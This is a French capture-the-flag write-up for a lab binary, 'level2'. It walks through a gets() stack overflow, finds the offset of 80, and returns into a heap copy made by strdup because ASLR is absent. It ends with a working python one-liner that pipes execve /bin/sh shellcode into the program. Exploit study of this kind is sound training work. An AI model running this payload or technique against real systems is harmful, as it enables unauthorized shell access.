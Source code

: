 # Level 2

## Explication
Après une certaine longueur d'entrée, il segfault.
```
$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
Lorsque nous inspectons avec gdb ou ghidra, nous trouvons la fonction principale `main` et `p` qui est appelé. La fonction `p` inclut un appel à `gets()` qui est vulnérable au buffer overflow.
![Ghidra level02, fonction main et p](./ghidra-level2.png)

On peut trouver l'offset via un tool comme [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/),
```
$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
En donnant l'adresse de où provient le segfault au site, nous obtenons un offset de 80, Cela signifie que nous pouvons écrire notre shellcode dans la `stdin`, suivi de charactères inutiles jusqu'à ce que le buffer déborde et que nous atteignions 80 caractères, où l'adresse de retour peut être écrasée.

Cependant, ce buffer est stocké sur la stack, malheureusement la fonction `p` vérifie que l'adresse de retour n'est pas dans la stack. Ce qui nous empêche d'écraser l'adresse de retour avec une adresse dans la stack.

Cependant, nous pourrions utiliser la heap, et comme vu sur `ghidra`, le buffer est ensuite copié avec `strdup`. Nous allons donc utiliser `ltrace` pour récupérer l'adresse de `strdup`.
```
$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                       = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5hw
)                                            = 0xbffff70c
puts("hw"hw
)                                                                               = 3
strdup("hw")                                                                             = 0x0804a008
+++ exited (status 8) +++
```
Et sur plusieurs utilisation de `ltrace`, `strdup` nous retourne toujours `0x0804a008`, cela indique qu'il n'y a pas d'ASLR (Address Space Layout Randomization).

Dans ce writeup, on va sauter toute la partie création d'un shellcode mais ce site sur la [création d'un shellcode](https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/) est très bien.

## Le script
Nous allons donc prendre le shellcode et le mettre dans le buffer en remplissant jusqu'̀a 80 charactères de `a` puis l'adresse de la heap en version little endian

`\x08\xa0\x04\x08` = address return strdup

```
$ python -c 'shell = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"; print(shell + "a" * (80 - len(shell)) + "\x08\xa0\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level2
```